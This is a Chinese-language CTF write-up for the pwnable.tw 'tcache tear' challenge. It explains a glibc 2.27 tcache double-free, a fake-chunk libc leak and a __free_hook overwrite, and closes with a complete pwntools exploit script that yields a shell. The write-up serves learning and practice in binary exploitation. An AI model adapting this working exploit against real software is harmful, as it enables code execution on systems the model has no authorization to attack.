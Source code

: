 ```yaml
---

title: pwnable.tw writeup - tcache tear
lang: zh
layout: article
show_subscribe: false
tags: [ctf,pwn]

---
```


## checksec

```bash
$ checksec tcache_tear
[*] '/home/z1933/workplace/vbshare/ctf/tcache_tear'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fe000)
    FORTIFY:  Enabled

```


Full RELRO 表示 GOT 表会在程序加载时就填好库函数地址，然后把 GOT 表设置为只读，程序运行时就不能改 GOT 表了。

程序流程还是不难分析的。

##  double free 

Glibc-2.7 ,tcache 没有 double free 检查: [glibc-2.27-malloc](https://elixir.free-electrons.com/glibc/glibc-2.27/source/malloc/malloc.c#L4169)。


下面是  tcache double free 让 malloc 返回任意地址的概述。 关于堆上分配，释放的流程具体可以参考：[Zhang1933/linux-heap-study](https://github.com/Zhang1933/linux-heap-study) 。

**free一次**(假设申请的chunk是32字节的大小):
```
tcache[0]-> chunk0
ptr -> chunk0
```

ptr 为程序中的全局分配释放指针。

**free 第二次:**
```
tcache[0]-> chunk0 ->chunk0
ptr -> chunk0
```

**申请一次**
```
tcache[0]-> chunk0
ptr -> chunk0
```

这个时候我们可以写chunk0的 fd 指针。

```
tcache[0]-> chunk0 -> TARGET_ADDR
ptr -> chunk0
```

然后申请一次，再申请一次 tcache 就会返回我们想要的地址 TARGET_ADDR 进行写操作了。

## 泄露libc

虽然可以任意地址写，但是可写地址并不多。

输入的 name 可写。我们可以在输入的 name 中构造一个 假的chunk。

unsorted bin 是双链循环链表。我们如果可以构造一个 假chunk(大于 tcache bin 的范围即可，这里选(0x500) 释放到unsorted bin ,然后打印 chunk 中的 fd 字段(用 Info 函数)，就可以泄露unsorted bin 的地址了,减去偏移就得到了 libc 的基地址。


在释放进unsorted bin时,构造的假chunk要绕开这些合理性检查：
[glibc-2.27 malloc:4272](https://elixir.free-electrons.com/glibc/glibc-2.27/source/malloc/malloc.c#L4272)

所以还需要在 `name-8+0x500` 的位置构造一个 size 为 `0x20|1` 的假chunk, `name-8+0x500+0x20` 的位置构造 size 为 `0x20|1` 的 假chunk。

name 就是程序一开始输入 name 时的固定地址。

## 控制程序流

得到libc的地址了我们可以得到 `__free_hook` 的地址,然后在指针中写入 system 的地址。下次释放 chunk 中只要数据部分为 `\bin\sh` 就OK了。

## Script

```python
#!/usr/bin/env python3

from pwn import *

HOST='chall.pwnable.tw'
PORT=10207
PROC="./tcache_tear"

context.log_level = 'DEBUG'
context.arch = 'amd64'

io=None
elf=ELF(PROC)
lib = ELF("./dynamic64/glibc-2-27/libc-64.so")

if len(sys.argv) == 1 : 
    io=process(PROC)
else:
    log.info("remote start")
    # 设置代理
    context.proxy=(socks.SOCKS5,'localhost',7890)
    io=remote(HOST,PORT)

def PauseLocalDebug():
    info("process pid: "+str(io.pid))
    pause()

def Info():
    io.sendafter(":","3")

def Malloc(size,data):
    io.sendafter(":","1")
    io.sendafter(":",str(size))
    io.sendafter(":",data)

def Free():
    io.sendafter(":","2")

io.sendafter(":","aaaa")

def writeaddr(addr,val,size):
    # 每调用一次，free两次。注释了毒化tcache[0]的情况
    # 先申请一块
    Malloc(size,"aaaa")
    Free()
    # tcahce[0] -> chunk0
    Free()
    # tcache[0] -> chunk0 -> chunk0
    
    # 再申请一次,此时可以写chunk0的fd
    Malloc(size,pack(addr))
    # tcache[0] -> chunk0 -> addr
    # ptr -> chunk0

    Malloc(size,"aaaa")
    # tcache[0] -> addr
    # ptr -> chunk0

    # 再申请一次,现在可写内容了,写假chunk
    Malloc(size,val)
    # ptr-> fake_chunk


NAME_ADDR=0x602060
PTR_ADDR=0x602088

#  fake chunk 的下一个 chunk 0x20 大小
#  fake chunk  的下下一个chunk 0x20 大小,一块写了,节省次数
fake_chunk=pack(0x20|1)+pack(0)*3+pack(0x20|1) # 全部 set iuse 位为1
writeaddr(NAME_ADDR-8+0x500,fake_chunk,0x50)

# 写 fake chunk ,顺便把全局分配指针改了,节省次数
fake_chunk0=pack(0x500|1)+b'\x00'*40+pack(NAME_ADDR)
writeaddr(NAME_ADDR-8,fake_chunk0,0x60)

# 释放到unsorted bin 中
Free()

# 泄露 unsorted bin 的 fd
Info()
io.recvuntil("Name :")
UNSORTADDR=unpack(io.recvn(6)+b'\x00'*2)
info("UNSORTADDR: "+hex(UNSORTADDR))

# 调试得到的偏移
OFFSET=0x3EBCA0
lib.address=UNSORTADDR-OFFSET
info("libc addr: "+hex(lib.address))
info("system addr: "+hex(lib.symbols['system']))
info("libc __free_hook addr:"+hex(lib.symbols['__free_hook']))

#PauseLocalDebug()

writeaddr(lib.symbols['__free_hook'],pack(lib.symbols['system']),0x70)
# 全局分配指针写入"sh"

Malloc(0x40,'/bin/sh')
Free()

io.interactive()

```

